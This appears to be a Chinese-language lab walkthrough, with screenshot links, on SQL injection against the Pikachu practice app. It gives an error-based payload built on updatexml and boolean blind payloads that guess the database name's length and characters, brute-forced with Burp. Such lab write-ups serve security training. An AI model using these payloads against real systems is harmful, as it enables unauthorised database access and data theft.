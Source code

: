 ![image-20230806163203127](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806163203127.png)

后台语句

![image-20230806163236950](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806163236950.png)

构造闭合

```
1'and updatexml(1,concat(0x7e,(select version()),0x7e),1)--'
```

![image-20230806164734474](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806164734474.png)

### 基于boolian的盲注

布尔盲注就是猜测，根据页面返回的true和flase猜数据库总数，猜数据库长度，猜数据库名字，猜表和字段

输入`kobe`用户存在，而输入`66`用户不存在，判断可能存在布尔盲注

我们可以猜与数据库的长度

```
kobe' and length(database())=6# 
kobe' and length(database())=7# 
```

当长度等于6时，提示用户不存在，等于7时，正确返回数据，说明数据库长度为7

我们再用burp爆破数据库的名称，构造payload

```
kobe' and substr(database(),1,1)='a'#
substr()是截取字符串的函数
```

发送到爆破模块，设置位置

![image-20230806171336783](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806171336783.png)

第一个位置

![image-20230806171418469](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806171418469.png)

第二个位置

![image-20230806171440400](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806171440400.png)

按照顺序拼写出pikachu

![image-20230806171519438](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806171519438.png)

### 基于时间的盲注

后台语句

![image-20230806171713131](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806171713131.png)
